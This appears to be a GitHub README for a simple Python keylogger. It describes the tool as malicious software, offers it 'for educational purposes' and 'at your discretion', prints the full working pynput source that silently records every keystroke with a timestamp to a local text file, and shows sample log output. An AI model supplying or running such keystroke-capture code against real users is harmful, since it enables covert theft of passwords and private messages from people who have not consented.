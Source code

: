 # Keylogger

Simple Keylogger software

![](/Images/KeyLog_Image_file.png)


### Description of the Keylogger

A keylogger is used as malicious software used to record all the keystrokes in a user in hopes of using all the information recorded in the "KeyLog.txt"(or named any kind) file, for malicious intent
This keylogger software is made to get a copy of each keystroke of a user. The keystroke format is shown as a ".txt" file formatted as (TIME/DATE:KEYSTROKE).
This software is made for educational purposes only! Use it at your discretion.

*This software won't work in an attack because the computer antivirus already has a signature for this kind of code*


This is the keylogger file and code:
- [Keylogger](https://github.com/Yasha-Santos/Keylogger/blob/main/Keylogger.py)

```
"""
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Author: Yaser Kassem

This is a simple keylogger program, this was made 
for educational purposes only!
hello
This is to show that even small code software have
great power
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
"""

# Before we start writting the code we must import the following tools in order to be able to perform our keylogigng
import pynput
import logging
from pynput.keyboard import Key, Listener

# Here you can add the directory you wish to save your log file 
log_dir = r"C:/Your/Wished/Directory"

# This log file will have all the keystrokes with the time it was typed, in the format as given below (TIME:MESSAGE)
logging.basicConfig(filename= (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

# In this function it will take each key as a parameter, then this information will
# be logged in the "keyLog.txt"
def on_press(key):
    logging.info(str(key))

# Creating a listener instance and define the on-press method and join it
# with the main program thread
with Listener(on_press=on_press) as listener:
    listener.join()
```
*This code above contains comments on how it works, minimal explanation will be provided*

Basically what this code does is that it saves all the keystrokes of a user in a running environment, meaning that it is not a one-time use only as it uses a thread to maintain its "life", meaning that when this file is executed a user won't notice a difference but in the background, it will be using a single process to capture every possible keystrokes or combination.

This is a small example of what the keylogger will record.
- [Keylog.txt (Example file)](https://github.com/Yasha-Santos/Keylogger/blob/main/KeyLog.txt)

```
2024-03-07 20:54:38,074: 'h'
2024-03-07 20:54:38,244: 'e'
2024-03-07 20:54:38,883: 'l'
2024-03-07 20:54:39,029: 'l'
2024-03-07 20:54:39,314: 'o'
2024-03-07 20:55:06,618: Key.space
2024-03-07 20:55:06,815: 'w'
2024-03-07 20:55:07,999: 'o'
2024-03-07 20:55:08,227: 'r'
2024-03-07 20:55:09,462: 'l'
2024-03-07 20:55:09,767: 'd'
```

The keylogger can store more information in this file, as long as the user is writing this software will record every single keystroke. The file above is only an example of what the output will look like.
